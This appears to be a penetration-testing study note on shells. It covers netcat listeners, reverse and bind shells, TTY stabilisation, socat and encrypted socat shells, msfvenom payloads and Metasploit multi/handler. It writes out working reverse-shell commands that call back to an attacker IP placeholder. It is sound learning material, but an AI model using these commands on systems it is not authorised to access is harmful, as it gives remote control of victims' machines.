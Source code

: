 ```yaml
---
icon: terminal
---
```


# Shells

### Key Concepts

#### Types of Shells

Interactive: you can interact with programs after executing them (e.g. nano)

* TeleTYpewriter (TTY): A fully interactive and stable terminal session

Non-Interactive: limited to using programs that don't require user interaction. Most reverse/bind shells are non-interactive.

## Reverse Shells

Target is forced to execute code that connects back to you computer. Attacker uses a listener to catch connection.

{% hint style="info" %}
Can bypass firewalls rules and is far more commonly used.
{% endhint %}

### Netcat

`nc -lvnp PORT_NUMBER`

`-l` act as a listener

`-v` request a verbose output

`-n` do not resolve hostnames or use DNS

`-p` indicates what port to use

{% hint style="info" %}
By default, netcat reverse shells are very unstable. We have to upgrade them.
{% endhint %}

#### Meterpreter to Netcat Shell

1. `meterpreter> shell` to open a standard shell
2. `nc -e /bin/bash <YOUR_IP> <PORT>` to start a netcat reverse shell from target machine

#### Upgrading a Netcat Shell

Python:

1. `python -c 'import pty;pty.spawn("/bin/bash")'` to spawn a bash shell on target machine
2. `export TERM=xterm` to allow Terminal commands (on attacker machine)
3. `Ctrl+Z` to background the current reverse shell process
4. `stty raw -echo` to pass all keystrokes to the remote shell
5. `fg` to bring the backgrounded reverse shell back to the foreground
6. (Once exited reverse shell) use `reset` to restore terminal to normal

rlwrap (Good for Windows shells):

1. `rlwrap nc -lvnp PORT_NUMBER`
2. Same process as above to stabilize

Socat:\
use netcat as a stepping stone into a fully-featured Socat shell, only on Linux targets. Can use Socat for basic Windows shells.

1. Transfer a socat static compiled binary to target machine
2. Windows:
   1. `socat TCP-L:PORT` for listener
   2. `socat TCP:LOCAL_IP:PORT EXEC:powershell.exe,pipes`
3. Linux (with stabilization)
   1. `socat TCP-L:PORT FILE:tty,raw,echo=0` for listener
   2. `socat TCP:LOCAL_IP:PORT EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

We can also use encrypted socat shells, by replacing `TCP` with `OPENSSL` . You must have an SLL Certificate on the attacking machine:

```bash
#Generate certificate
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
#Merge into one .pem file
cat shell.key shell.crt > shell.pem
#Reverse shell listener
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 - verify=0
#On target machine
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

### Msfvenom

Used to generate code for reverse and bind shell, can also be used to generate hexadecimal shell code for buffer overflow exploit. Payloads in various formats of your choosing.

`msfvenom -p PAYLOAD OPTIONS`

`-f` specify output format

`-o` output location and filename

`LHOST=IP` specifies IP to connect back to

`LPORT=PORT` specify port on local machine to connect back to\\

e.g. `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST= LPORT=`

Payload Types:

* Staged: sent in two parts, stager piece of code on target machine that connects back to a listener to load real payload, does not touch the disk
* Stageless: self-contained but the payload is on the disk so it's easier to catch

Metasploit Multi/Handler is a good tool to catch reverse shells (especially for meterpreter shells)

```bash
msfconsole #open metasploit
use multi/handler
options
set PAYLOAD <PAYLOAD> LHOST <LOCAL-IP> LPORT <PORT>
exploit -j #-j to run as background
```

### Web Shells

Some websites allow the ability to upload an executable file to active a reverse or bind shell. They are typically run inside a webserver in a language like PHP.

## Bind Shells

The code executed is a listener attached to a shell directly on the target.

{% hint style="info" %}
May be protected by firewalls and is far less common.
{% endhint %}

On target machine: `nc -lvnp -e "cmd.exe"`

On attacker machine: `nc MACHINE_IP`
